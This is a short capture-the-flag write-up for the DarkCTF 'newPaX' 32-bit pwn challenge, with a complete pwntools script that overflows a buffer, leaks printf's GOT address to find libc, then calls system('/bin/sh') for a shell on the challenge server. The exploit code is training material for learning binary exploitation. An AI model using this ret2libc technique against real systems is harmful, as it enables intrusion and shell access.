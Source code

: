 ## DarkCTF: newPaX [pwn]
> Even though Solar Designer gave you his times technique, you have to resolve(sort-out) yourself and go deeper. This time rope willn't let you have anything you want but you have to make a fake rope and get everything.

#### I solved this using re2libc, but the author had another 'intended' way of solving it (I'll update this later). Similar to roprop, but this time in 32-bit. There are a only a few functions in the binary to which we can perform rop with. My plan was to leak printf's got address then proceed with the usual ret2libc approach.
```python
from pwn import *

#:
p = remote('pwn.darkarmy.xyz', 5001)
#p = process('./newPaX')
binary = ELF('./newPaX', checksec = False)

#: Stage 1
exploit = cyclic(52)
exploit += p32(binary.symbols['printf'])
exploit += p32(binary.symbols['main'])
exploit += p32(binary.got['printf'])
p.sendline(exploit)

#: Get libc from leak
libc = ELF('libc6-i386_2.27-3ubuntu1.2_amd64.so', checksec = False)

printf_leak = u32(p.recv()[:4])
print('[*] printf leak: {}'.format(hex(printf_leak)))
libc.address = printf_leak - libc.symbols['printf']
print('[*] libc base: {}'.format(hex(libc.address)))

#: Stage 2
exploit = cyclic(52)
exploit += p32(libc.symbols['system'])
exploit += p32(libc.symbols['exit'])
exploit += p32(libc.search('/bin/sh').next())
p.sendline(exploit)
p.interactive()
```
![](newpax_shell.png)